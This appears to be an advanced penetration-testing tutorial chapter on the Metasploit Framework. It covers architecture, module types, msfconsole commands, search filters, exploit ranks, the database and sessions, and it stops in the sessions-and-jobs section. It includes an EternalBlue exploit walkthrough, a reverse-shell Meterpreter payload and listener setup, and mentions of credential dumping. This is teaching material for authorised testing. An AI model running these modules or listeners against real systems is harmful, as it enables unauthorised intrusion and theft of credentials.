






**Level:** Advanced · **Track:** Penetration Testing · **Read time:** 240 min

This is Chapter 3 of the Exploitation notebook. Chapter 1 built the vocabulary of exploitation — exploit versus payload versus shellcode, reverse versus bind shells, listeners and handlers, staged versus stageless delivery — and Chapter 2 turned that vocabulary into working code by finding, vetting and firing standalone public exploits from Exploit-DB. This chapter introduces the single most important tool in offensive security: the **Metasploit Framework**. Where Chapter 2's exploits were one-off scripts you read, patched and ran by hand, Metasploit is an *engine* — a structured, database-backed, modular platform that standardises the whole exploit-develop-deliver-post-exploit loop into a common interface.

By the end of this chapter you will understand what Metasploit actually is beneath the famous `msfconsole` banner: its architecture, the libraries and modules that make it up, the datastore that carries your configuration, the PostgreSQL database that remembers your hosts and loot, and the seven module types you will use every day. You will be able to install and update the framework on Kali, drive `msfconsole` fluently, search and select modules with precise filters, set and inspect options, understand module ranking and targets, run auxiliary and exploit modules against an authorised lab target, manage multiple sessions and background jobs, and automate a repeatable workflow with a resource script.

Metasploit changes state on other people's computers. It launches real exploits, opens real shells and can crash services outright. Everything in this chapter assumes an explicit, written, scoped engagement or hardware you own. Build the lab in Part 12, attack only your own VMs, read what each module does before you run it, and never point a payload at an address you are not authorised to touch. This chapter is *Part 1* of a four-part arc: here we build the foundation (architecture, console, modules); the next chapter covers exploits, payloads, sessions and Meterpreter in depth; Chapter 5 covers `msfvenom` standalone payload generation and encoding; Chapter 6 covers post-exploitation modules, pivoting and automation.

---

## Part 1: What Metasploit Actually Is

Before touching a single command, get the mental model right, because most people misuse Metasploit precisely because they think it is a "hacking button" rather than what it is: a **framework**.

A framework, in software terms, is a reusable skeleton of code that provides common structure and services so that individual pieces of functionality don't each have to reinvent networking, encoding, session handling, logging and reporting. Metasploit is exactly this for exploitation. Instead of every exploit shipping its own socket code, its own shellcode, its own encoder and its own way of catching a shell, Metasploit provides all of that as shared **libraries**, and each individual exploit becomes a small **module** that plugs into the engine and reuses those services.

Concretely, when you run a Metasploit exploit you are combining independent, swappable parts:

- An **exploit module** — the code that triggers a specific vulnerability in a specific piece of software (e.g. a buffer overflow in a particular FTP server, or a deserialization bug in a Java app).
- A **payload** — the code that runs *on the target* after the vulnerability is triggered (e.g. a reverse shell, or the Meterpreter agent). Crucially, in Metasploit the payload is *not* baked into the exploit. You pick the exploit and separately pick the payload, and the framework marries them at runtime. This decoupling is the core design idea.
- An **encoder** — optionally re-encodes the payload bytes to avoid bad characters or naive signature detection.
- A **nop generator** — pads shellcode with no-operation instructions where an exploit needs a predictable landing zone.
- A **handler** — the listener on your machine that catches the connection the payload makes back to you.

This modularity is why Metasploit scales. There are thousands of exploit modules and a few dozen payloads; because any compatible payload can be attached to any exploit, the framework gets combinatorial power from a linear amount of code. Learn the engine once and every module feels familiar.

### Framework vs Pro vs the wider project

"Metasploit" is an umbrella name. The pieces you should distinguish:

- **Metasploit Framework** — the free, open-source core (BSD-licensed, sponsored by Rapid7, developed in the open on GitHub). This is what ships on Kali and what this chapter teaches. It is driven from the command line via `msfconsole`.
- **Metasploit Pro** — a paid commercial product built on top of the framework, adding a web GUI, automated exploitation, phishing campaigns, reporting and team features. You will almost never need it to learn; the framework does everything for study and most professional testing.
- **The wider tooling** — `msfvenom` (standalone payload generator, covered in Chapter 5), `msfdb` (database helper), and the RPC/REST interfaces that let other tools drive the framework programmatically.

The framework is written primarily in **Ruby**. You do not need to know Ruby to *use* Metasploit, but knowing that modules are Ruby classes helps you read them — and reading a module before running it is a professional habit, exactly as it was for the standalone exploits in Chapter 2. Every module lives as a `.rb` file on disk and you can open it in any editor.

**Why this matters for a real engagement:** Metasploit is not just a convenience. It gives you *consistency* (every exploit is driven the same way, so you make fewer fat-finger mistakes under pressure), *reliability* (modules are peer-reviewed and ranked, so you know roughly how dangerous each is to run), *record-keeping* (the database logs every host, service and credential you touch, which becomes your report), and *post-exploitation depth* (Meterpreter and the post modules are unmatched). Those four properties — consistency, reliability, record-keeping, depth — are why it remains the backbone of hands-on testing decades after its creation.

---

## Part 2: A Short History and Why the Architecture Looks the Way It Does

Understanding *why* Metasploit is structured as it is makes the structure stick.

Metasploit began in 2003 as a portable network tool — H.D. Moore built it as a Perl-based project to collect and standardise exploit code that until then lived as scattered, inconsistent scripts (exactly the Exploit-DB mess Chapter 2 dealt with). The insight was that exploitation had a *common shape*: pick a target, trigger a bug, deliver a payload, catch a connection, act on the box. If you factor that common shape into a framework, individual exploits shrink to just the bug-specific part.

In 2007 the framework was rewritten from Perl into **Ruby**, which gave it clean object-orientation and the mixin system that modules still use. In 2009 Rapid7 acquired the project and funded full-time development while keeping the framework open source. Over the years the payload story matured — most importantly the arrival of **Meterpreter**, an in-memory, extensible payload that runs entirely in RAM and never touches disk as a file, which is the subject of the next chapter.

The architectural consequences you care about:

- Because exploits and payloads were separated early, you get the pick-and-mix model. This is unusual and powerful; most standalone exploits hardcode their shellcode.
- Because the framework is library-first, features like SMB, HTTP, SSH and Kerberos protocol handling are shared services (in the `Rex` and `msf/core` libraries) that any module can call. When you see a module "just work" against SMB, it is standing on thousands of lines of shared protocol code.
- Because it grew a database layer, Metasploit can act as the connective tissue of a whole engagement: import Nmap results, track which hosts run which services, store cracked credentials, and feed all of that back into modules automatically.



Read the diagram top-down: you type into an **interface** (almost always `msfconsole`); the interface drives the **core** (which tracks the selected module, the datastore of options, active sessions and background jobs); the core stands on **libraries** (`Rex` for low-level protocol/socket/encoding work, `Msf::Core` for the base classes every module inherits); the core loads **modules** from disk and pairs them with payloads; and the whole thing reads and writes a **PostgreSQL database** that remembers everything you discover.

---

## Part 3: Installing, Updating and First Launch

On **Kali Linux** and **Parrot OS**, the Metasploit Framework is pre-installed as the `metasploit-framework` package. You rarely install it from scratch, but you should know how, and you must know how to update it and stand up its database.

### Confirming the install

```bash
# Is it installed, and which version?
msfconsole --version
# Framework Version: 6.4.x-dev
```

If it is missing (a minimal install, a non-Kali distro), install it from the Rapid7 repository rather than distro packages, which lag:

```bash
# Official omnibus installer (Debian/Ubuntu/Kali)
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
chmod 755 msfinstall
sudo ./msfinstall
```

- `curl <url> > msfinstall` — download the installer script to a local file. `curl` is the standard command-line HTTP client; `>` redirects its output to a file rather than the terminal.
- `chmod 755 msfinstall` — make the script executable. `755` means owner can read/write/execute, group and others can read/execute (the Linux series' permissions chapter covers the octal notation).
- `sudo ./msfinstall` — run the installer with root privileges so it can add the apt repository and install system-wide.

### Updating the framework

On Kali, update through apt so the whole system stays consistent:

```bash
sudo apt update && sudo apt install metasploit-framework
```

- `apt update` — refresh the local package index so apt knows the latest available versions.
- `&&` — run the second command only if the first succeeds.
- `apt install metasploit-framework` — install or upgrade the package to the newest version in the repo.

Avoid the old `msfupdate` command on Kali; it can pull a version out of step with the rest of the distro. On a Rapid7-omnibus install (not Kali), `msfupdate` is the correct updater.

### Standing up the database (do this once)

Metasploit's real power comes online only when its **PostgreSQL** database is running and initialised. Without it you can still fire single modules, but you lose host/service tracking, loot storage, workspaces and fast search. Initialise it once:

```bash
# Start PostgreSQL and create the msf database + schema
sudo systemctl start postgresql
sudo msfdb init
```

- `systemctl start postgresql` — start the PostgreSQL service via systemd, Linux's service manager. Use `systemctl enable --now postgresql` to also start it automatically at every boot.
- `msfdb init` — Metasploit's database helper. It creates the `msf` database, a database user, the schema, and writes a `database.yml` config so `msfconsole` connects automatically.

Other `msfdb` subcommands worth knowing:

| Command | What it does |
|---|---|
| `msfdb init` | Create and initialise the database and config |
| `msfdb status` | Report whether the DB is running and initialised |
| `msfdb start` / `msfdb stop` | Start/stop the bundled PostgreSQL instance |
| `msfdb reinit` | Wipe and recreate from scratch (destroys stored data) |
| `msfdb run` | Init if needed, then launch `msfconsole` |

### First launch

```bash
msfconsole
```

The first launch after boot can take 20–40 seconds while it loads thousands of modules. You are greeted by a random ASCII banner, a module count, and the `msf6 >` prompt. The `6` is the major version. Immediately verify the database connected:

```
msf6 > db_status
[*] Connected to msf. Connection type: postgresql.
```

If it says "not connected", exit, run `sudo msfdb init`, restart PostgreSQL, and relaunch. A connected database is the difference between using Metasploit as a toy and using it as a platform.

**Speed tip:** launch with `msfconsole -q` to suppress the banner, and `msfconsole -x "use exploit/...; set RHOSTS ...; run"` to run commands non-interactively. The `-q` (quiet) flag alone shaves the banner render and is the flag experienced operators use by reflex.

---

## Part 4: The Module Taxonomy — the Seven Types

Everything Metasploit *does* is a module. There are seven module types, each in its own top-level directory under the modules path (typically `/usr/share/metasploit-framework/modules/`). Knowing which type you need is half of using the framework well.



### Exploit modules (`exploit/`)

The code that triggers a specific vulnerability to gain code execution or otherwise abuse a target. An exploit module carries a payload, has one or more **targets** (specific OS/software builds it supports), and a **rank** describing reliability. This is the type most people picture when they think "Metasploit". Path convention: `exploit/<platform>/<service>/<name>`, e.g. `exploit/windows/smb/ms17_010_eternalblue`.

### Auxiliary modules (`auxiliary/`)

Anything that does *not* carry a payload: scanners, fuzzers, sniffers, spoofers, brute-forcers, denial-of-service modules, and administrative tools. If a module just gathers information or manipulates a service without dropping code, it is auxiliary. Examples: `auxiliary/scanner/smb/smb_version`, `auxiliary/scanner/ssh/ssh_login`, `auxiliary/scanner/http/dir_scanner`. Auxiliary scanners are often where a real workflow *starts* — you enumerate before you exploit.

### Payload modules (`payload/`)

The code executed on the target after an exploit succeeds. Three sub-kinds (covered deeply next chapter):

- **Singles** — fully self-contained, do one thing, no network stager needed (e.g. `windows/shell_bind_tcp`). Named with underscores.
- **Stagers** — a tiny first-stage that sets up a network connection and pulls down a larger second stage (e.g. `windows/meterpreter/reverse_tcp`). Named with slashes.
- **Stages** — the large payload the stager downloads (e.g. Meterpreter itself). The staged/stageless distinction from Chapter 1 lives here.

### Encoder modules (`encoder/`)

Transform payload bytes into an equivalent form that avoids **bad characters** (bytes the vulnerable code can't tolerate, like null bytes `\x00` in a string overflow) or that scrambles a naive signature. The famous `x86/shikata_ga_nai` is a polymorphic XOR encoder. Encoding is *not* reliable AV evasion any more (modern AV decodes it), but it remains essential for the bad-character problem.

### NOP modules (`nop/`)

Generate no-operation instruction sleds — padding that lets execution "slide" into your shellcode when the exact landing address is uncertain. Mostly relevant to classic memory-corruption exploits; rarely selected by hand.

### Post modules (`post/`)

Run *after* you already have a session on a host. Loot gathering, privilege escalation checks, credential dumping, pivoting setup, persistence, screen capture. Path convention `post/<platform>/<category>/<name>`, e.g. `post/windows/gather/hashdump`. Chapter 6 is dedicated to these.

### Evasion modules (`evasion/`)

A newer type that builds antivirus-evasive Windows binaries directly (a more integrated cousin of `msfvenom` encoding). Distinct from encoders because they target endpoint AV specifically.

| Type | Directory | Carries payload? | Runs where | Typical use |
|---|---|---|---|---|
| Exploit | `exploit/` | Yes | Against target | Gain code execution |
| Auxiliary | `auxiliary/` | No | Against target | Scan, brute, fuzz, DoS |
| Payload | `payload/` | — | On target | Shell / Meterpreter |
| Encoder | `encoder/` | — | Build-time | Avoid bad chars |
| NOP | `nop/` | — | Build-time | Shellcode alignment |
| Post | `post/` | No | On owned host | Loot, pivot, persist |
| Evasion | `evasion/` | Yes | Build-time | AV-evasive binary |

**Reading a module path is a skill.** `exploit/windows/smb/ms17_010_eternalblue` decodes instantly once you know the grammar: it's an *exploit*, for *Windows*, in the *SMB* service, named after *MS17-010 EternalBlue*. Every path follows `type/platform/service-or-category/name`.

---

## Part 5: Driving msfconsole — Core Commands

`msfconsole` is the primary interface — a rich, tab-completing, history-aware shell. Learn these commands until they are reflex. They fall into families: help/navigation, module selection, options, execution, and database.

### Help and navigation

```
help                 # list all commands (grouped)
help set             # help for one command
?                    # alias for help
banner               # print a fresh banner (and module counts)
version              # framework and console version
connect 10.10.10.5 445   # built-in netcat-like TCP client
```

Two quality-of-life features: **tab completion** works on commands, module names, options and even option values; and **command history** persists across sessions (up-arrow, or `history`). You can run system commands inline — `ls`, `cat`, `ping` — because the console passes unknown-but-executable words to the shell.

### Selecting and inspecting modules

```
search eternalblue           # find modules by keyword
use exploit/windows/smb/ms17_010_eternalblue    # select a module
use 0                        # select by result index from the last search
info                         # full details of the selected module
back                         # deselect the current module
previous                     # switch to the previously selected module
```

Once a module is selected the prompt changes to show it, e.g. `msf6 exploit(windows/smb/ms17_010_eternalblue) >`. That context is everything — subsequent commands like `set`, `show options` and `run` apply to the selected module.

### Options: the datastore in practice

```
show options         # required and optional settings for this module
show missing         # only the required options not yet set
set RHOSTS 10.10.10.5    # set a module-local option
setg LHOST 10.10.14.7    # set a GLOBAL option (persists across modules)
unset RHOSTS         # clear one option
unsetg LHOST         # clear a global option
get RHOSTS           # read back a value
```

`show options` prints a table of settings. Each has a name, current value, a Required flag, and a description. Anything with `Required = yes` and an empty `Current Setting` must be filled before the module will run — `show missing` filters straight to those.

### Targets, payloads and advanced options

```
show targets         # OS/build variants this exploit supports
set TARGET 2         # choose a target by index
show payloads        # payloads compatible with this exploit + target
set PAYLOAD windows/x64/meterpreter/reverse_tcp
show advanced        # rarely-touched but powerful extra options
show evasion         # evasion-related options for this module
```

### Execution

```
check                # safely test if target is vulnerable WITHOUT exploiting (if supported)
run                  # execute the module
exploit              # alias of run for exploit modules
exploit -j           # run as a background job
exploit -z           # run but do not interact with the session immediately
run -h               # options for run itself (verbose, jobs, etc.)
```

`check` is underused gold: many exploit modules can *probe* for the vulnerability without firing it, which is far safer on production systems and gives you a defensible "confirmed vulnerable" finding.

### Sessions and jobs

```
sessions             # list active sessions
sessions -i 1        # interact with session 1
sessions -l          # verbose list
sessions -k 1        # kill session 1
sessions -u 1        # upgrade a shell session to Meterpreter
background           # (inside a session) drop back to the console, keep session alive
jobs                 # list background jobs (e.g. handlers, running exploits)
jobs -k 0            # kill job 0
kill 0               # kill a job by id
```

| Command | Family | Purpose |
|---|---|---|
| `search` | selection | Find modules |
| `use` | selection | Select a module |
| `info` | selection | Describe a module |
| `show options` | config | List settings |
| `set` / `setg` | config | Set a value (local / global) |
| `check` | execution | Test vulnerability safely |
| `run` / `exploit` | execution | Fire the module |
| `sessions` | post | Manage open sessions |
| `jobs` | post | Manage background jobs |
| `db_nmap` | database | Nmap + auto-import |
| `hosts` / `services` | database | Query stored recon |

---

## Part 6: The Datastore — Local vs Global Options

The **datastore** is Metasploit's configuration memory: the set of named variables (RHOSTS, LHOST, PAYLOAD, etc.) that modules read from. Misunderstanding it is the single most common beginner trap, so treat this part carefully.

There are two datastores:

- The **module (local) datastore** — options you `set` while a module is selected. They belong to *that module instance* and are cleared or reset when you switch away (though Metasploit remembers per-module values within a session).
- The **global datastore** — options you `setg`. They apply to *every* module until you `unsetg` them or quit. This is how you set `LHOST` once for the whole engagement instead of re-typing your IP into every module.



The resolution rule: when a module needs an option, it looks in its **local** datastore first; if not set there, it falls back to the **global** datastore. A local `set` therefore *overrides* a global `setg` for that module. This is why `setg LHOST` your attacker IP once, then only `set RHOSTS` per target, is the efficient pattern.

Common options you will set constantly:

| Option | Meaning | Where you set it |
|---|---|---|
| `RHOSTS` | Remote/target host(s). Accepts a single IP, CIDR `10.0.0.0/24`, range `10.0.0.1-20`, or a file `file:/path/targets.txt` | Local, per target |
| `RPORT` | Remote/target port (module has a sensible default) | Local, rarely changed |
| `LHOST` | Local host — *your* IP the payload connects back to | Global, once |
| `LPORT` | Local port your handler listens on | Global or local |
| `PAYLOAD` | Which payload to attach to an exploit | Local |
| `TARGET` | Which target variant of the exploit | Local |
| `SESSION` | Which existing session a post module runs against | Local |
| `THREADS` | Concurrency for scanners | Local |

**Watch the plural:** modern modules use `RHOSTS` (plural, supports ranges and CIDR) not the old singular `RHOST`. Setting the wrong one is a classic "why won't this run" mistake — `show missing` will save you.

`save` writes the current global datastore to `~/.msf4/config` so it survives restarts; use it sparingly, because stale globals from a previous engagement pointing your payload at an old IP is a real and embarrassing failure mode. `setg` is powerful precisely because it is sticky — respect that.

---

## Part 7: Searching and Selecting Modules Precisely

With tens of thousands of modules, `search` fluency is what separates fast operators from slow ones. Bare keyword search is fine to start, but the filter keywords are where the power is.

```
search eternalblue
search ms17-010
search type:exploit platform:windows smb
search cve:2021-44228        # Log4Shell
search author:hdm
search name:tomcat type:exploit
search rank:excellent type:exploit platform:linux
```

Filter keywords you should memorise:

| Filter | Matches on | Example |
|---|---|---|
| `type:` | Module type | `type:auxiliary` |
| `platform:` | Target platform | `platform:windows` |
| `cve:` | CVE identifier | `cve:2017-0144` |
| `name:` | Module name text | `name:smb` |
| `path:` | Module path text | `path:scanner` |
| `author:` | Module author | `author:hdm` |
| `rank:` | Reliability rank | `rank:excellent` |
| `arch:` | Architecture | `arch:x64` |
| `port:` | Default RPORT | `port:445` |
| `app:` | Client/server side | `app:server` |
| `disclosure_date:` | When the bug was published | `disclosure_date:2021` |

Combine them freely: `search type:exploit platform:windows rank:great port:445` narrows thousands of modules to a short, high-quality list. Results are numbered, and `use <number>` selects by index — a fast idiom immediately after a search.

```
msf6 > search type:exploit name:ms17_010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/... via SMB

msf6 > use 0
```

**Reading the result table:** the **Rank** column is a promise about reliability (see Part 8), and the **Check** column tells you whether the module supports the safe `check` command. Prefer modules that support `check` on production systems, and prefer higher ranks when you have a choice.

`grep` chains onto commands too — `grep meterpreter show payloads` filters a long listing, and `search ... | grep excellent` refines further.

---

## Part 8: Exploit Ranking, Targets and the info Screen

Two module properties decide how you use an exploit safely: its **rank** and its **targets**.

### Exploit rank

Every exploit module carries a rank that estimates how reliable and how *safe* it is — specifically, how likely it is to work and how likely it is to crash the target service or the whole box. From best to worst:

| Rank | Meaning |
|---|---|
| `excellent` | Never crashes the service; no memory corruption (e.g. command injection, auth bypass, SQLi-to-RCE). The gold standard — run these with confidence. |
| `great` | Default target auto-detected or a very reliable check; works reliably. |
| `good` | Default target reasonable for the common case. |
| `normal` | Reliable but must be manually targeted; no auto-detect. |
| `average` | Somewhat unreliable — EternalBlue itself is here. |
| `low` | Unlikely to work (under ~50%) on the common target. |
| `manual` | Nearly always needs hand-tuning, or is a DoS, or is unstable. Read the module before firing. |

**Why this matters on a live test:** an `average` or `low` memory-corruption exploit against a production server can bluescreen the box and take a service down — a real, billable incident. Reach for `excellent`/`great` ranks first, use `check` where offered, and only run `average`-and-below modules against systems where a crash is acceptable (your own lab, or a scoped, change-approved window). Rank is a risk signal, not just a quality score.

### Targets

Memory-corruption and many logic exploits are build-specific: the same bug needs different offsets or techniques on Windows 7 x86 vs Windows Server 2016 x64 vs a specific service pack. Metasploit encodes these as **targets**:

```
msf6 exploit(...) > show targets

Exploit targets:
   Id  Name
   --  ----
   0   Automatic Targeting
   1   Windows 7 and Server 2008 R2 (x64) All Service Packs
   2   Windows 8.1 / Server 2012 R2 (x64)

msf6 exploit(...) > set TARGET 1
```

`0 Automatic Targeting` tries to fingerprint the target and pick for you; it is convenient but can guess wrong. When you *know* the exact build from enumeration (Chapter 2's version-banner work), setting the target explicitly is more reliable than trusting auto-detection.

### The info screen

`info` (or `info <module>` without selecting) is the module's full datasheet: description, authors, references (CVE, EDB-ID, MSB, URLs), disclosure date, rank, available targets, all options with defaults, and often notes on reliability and side effects. **Reading `info` before running is the Metasploit equivalent of reading the exploit source in Chapter 2 — do it every time.** It tells you what the module will do, what it needs, and how it can go wrong.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > info

       Name: MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
     Module: exploit/windows/smb/ms17_010_eternalblue
   Platform: Windows
       Rank: Average
  Disclosed: 2017-03-14

Provided by:
  Sean Dillon, Dylan Davis, Equation Group ...

Available targets:
  Id  Name
  --  ----
  0   Automatic Target

Description:
  This module is a port of the Equation Group ETERNALBLUE exploit...

References:
  https://nvd.nist.gov/vuln/detail/CVE-2017-0143
  MSB-MS17-010
```

---

## Part 9: The Database — Workspaces, Hosts, Services and Loot

The PostgreSQL database is what turns Metasploit from an exploit launcher into an engagement platform. It records every host you see, every service you enumerate, every credential you steal and every piece of loot you exfiltrate — and modules read from and write to it automatically.

### Workspaces

A **workspace** is an isolated container of database data — think one workspace per engagement or per target network, so a client's hosts never mix with another's.

```
workspace                    # list workspaces (* marks current)
workspace -a client_acme     # add and switch to a new workspace
workspace client_acme        # switch to an existing workspace
workspace -d old_engagement  # delete a workspace and all its data
workspace -r old new         # rename
```

Start every engagement with `workspace -a <name>`. It is the cleanest way to keep data separated and your final report accurate.

### Populating the database with db_nmap

The fastest way to fill the database is to run Nmap *through* Metasploit so results import automatically:

```
db_nmap -sV -sC -O 10.10.10.0/24
```

- `-sV` — service/version detection (fills the `services` table with product and version).
- `-sC` — run default NSE scripts.
- `-O` — OS detection.
- The CIDR scans the whole /24. Every host, port, service and OS guess lands in the database.

You can also import existing scans: `db_import scan.xml` ingests Nmap XML, Nessus, Nexpose, Qualys and many other formats. On a real test you often import the team's authorised Nmap output rather than rescanning.

### Querying stored data

```
hosts                        # all discovered hosts (IP, OS, name)
hosts -c address,os_name,name   # choose columns
services                     # all discovered services
services -p 445              # filter services by port
services -s smb              # filter by service name
services -u                  # only "up" services
vulns                        # vulnerabilities correlated to hosts
creds                        # captured/stored credentials
loot                         # files/data exfiltrated by post modules
notes                        # freeform notes attached to hosts
```

### The database feeds modules back automatically

The payoff: once services are in the database, you can point a module at *all matching hosts at once*. Setting `RHOSTS` from the services table, or using the `-R` convention some workflows adopt, lets an auxiliary scanner sweep every host running a given service without you copy-pasting IPs. This closed loop — scan → store → module reads store → results stored — is the architectural heart of an efficient Metasploit engagement.



**Blue-team note:** everything in that loop is *loud*. `db_nmap` across a /24 generates a burst of connection attempts and version probes across the whole range in seconds — a pattern that IDS/NetFlow analytics flag immediately as horizontal scanning. We return to the defender's view in Part 11.

---

## Part 10: Sessions, Jobs and Resource-Script Automation

### Sessions

When an exploit succeeds it opens a **session** — an interactive channel to the compromised host (a command shell, or a Meterpreter session). Metasploit can hold many sessions at once, numbered 1, 2, 3…:

```
sessions            # list all
sessions -i 2       # interact with session 2
background          # from inside a session, return to console (session stays alive)
sessions -k 2       # kill session 2
sessions -K         # kill ALL sessions
sessions -u 3       # upgrade a basic shell (session 3) to Meterpreter
sessions -C "sysinfo" -i 3   # run a command in a session without full interaction
```

The `background` command (or Ctrl-Z inside a session) is essential: it lets you keep a shell open while you go configure and run the next module, then `sessions -i` back into it. Losing this habit means killing a hard-won shell just to run one more scan.

### Jobs

A **job** is a module running in the background — most importantly a **handler** (the listener that catches reverse connections). `exploit -j` runs an exploit as a job so the console stays free; the classic pattern is to start a multi/handler as a job so it keeps listening while you deliver a payload by other means:

```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
setg LHOST 10.10.14.7
set LPORT 4444
exploit -j          # background handler; console returns immediately
jobs                # confirm the handler is listening
```

